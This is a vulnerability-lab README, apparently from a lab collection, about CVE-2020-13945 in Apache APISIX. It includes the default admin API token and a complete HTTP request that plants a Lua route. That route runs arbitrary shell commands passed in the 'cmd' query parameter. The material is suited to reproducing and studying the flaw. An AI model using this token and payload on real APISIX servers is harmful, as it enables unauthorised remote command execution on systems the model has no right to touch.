

# Apache APISIX's Admin API default access token vulnerability (CVE-2020-13945)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX is a dynamic, real-time, high-performance API gateway. Apache APISIX has a default built-in API token `edd1c9f034335f136f87ad84b625c8f1` that can be used to access all the admin API, which leads to the remote LUA code execution through the `script` parameter added in the 2.x version.

References:

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## Vulnerability Environment

Execute following command to start a Apache APISIX server 2.11.0 (this vulnerability hasn't been fixed until newest version, might be not considered fixing by vendor):

```
docker-compose up -d
```

After the server is started, you can see a default 404 page at `http://your-ip:9080`.

## Vulnerability Reproduce

Add a new evil router rule to the APISIX through admin api with default token:

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```



Then, use this evil router to execute arbitrary commands:

```
http://your-ip:9080/attack?cmd=id
```


